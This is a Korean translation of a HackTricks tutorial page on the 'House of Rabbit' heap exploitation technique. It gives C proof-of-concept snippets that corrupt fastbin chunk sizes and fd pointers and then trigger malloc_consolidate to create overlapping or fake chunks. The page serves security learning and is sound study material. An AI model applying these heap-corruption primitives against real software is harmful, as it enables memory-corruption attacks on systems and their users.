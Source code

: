 # 토끼의 집

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 제로부터 영웅이 될 때까지 AWS 해킹을 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 팔로우하세요.**
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃허브 저장소에 기여하세요.**

</details>

### 요구 사항

1. **Fastbin fd 포인터 또는 크기 수정 능력**: 이는 fastbin의 순방향 포인터 또는 크기를 변경할 수 있는 능력을 의미합니다.
2. **`malloc_consolidate`를 트리거할 수 있는 능력**: 큰 청크를 할당하거나 최상위 청크를 병합하여 힙이 청크를 통합하도록 하는 것으로 수행할 수 있습니다.

### 목표

1. **중첩된 청크 생성**: 다른 청크와 중첩되도록 하여 추가 힙 조작을 가능케 합니다.
2. **가짜 청크 조작**: 할당기를 속여 가짜 청크를 힙 작업 중에 정당한 청크로 취급하도록 합니다.

## 공격 단계

### POC 1: Fastbin 청크의 크기 수정

**목표**: fastbin 청크의 크기를 조작하여 중첩된 청크를 생성합니다.

* **단계 1: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **단계 2: 청크 해제**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **단계 3: 청크 크기 수정**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **단계 4: `malloc_consolidate`를 트리거합니다**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
대규모 청크를 할당하면 `malloc_consolidate` 함수가 트리거되어 fastbin에서 작은 청크를 병합합니다. `chunk1`의 조작된 크기로 인해 `chunk2`와 겹칩니다.

통합 후 `chunk1`은 `chunk2`와 겹쳐져 추가적인 악용이 가능해집니다.

### POC 2: FD 포인터 수정

**목표**: fastbin fd 포인터를 조작하여 가짜 청크를 생성합니다.

* **단계 1: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**설명**: 우리는 가짜 청크를 설정하기 위해 하나는 작고 다른 하나는 큰 두 청크를 할당합니다.

* **단계 2: 가짜 청크 생성**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **단계 3: 청크1 해제**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**설명**: 우리는 `chunk1`을 해제하여 fastbin 목록에 추가합니다.

* **단계 4: Chunk1의 FD 수정**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**설명**: `chunk1`의 전방향 포인터(fd)를 `chunk2` 내의 가짜 청크를 가리키도록 변경합니다.

* **단계 5: `malloc_consolidate`를 트리거합니다**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
큰 청크를 다시 할당하면 `malloc_consolidate`가 트리거되어 가짜 청크를 처리합니다.

가짜 청크는 fastbin 목록의 일부가 되어 추가적인 악용을 위한 합법적인 청크가 됩니다.

### 요약

**House of Rabbit** 기술은 fastbin 청크의 크기를 수정하여 겹치는 청크를 만들거나 fd 포인터를 조작하여 가짜 청크를 만드는 것을 포함합니다. 이를 통해 공격자는 힙에 합법적인 청크를 위조하여 다양한 형태의 악용을 가능케 합니다. 이러한 단계를 이해하고 연습함으로써 힙 악용 기술을 향상시킬 수 있습니다.
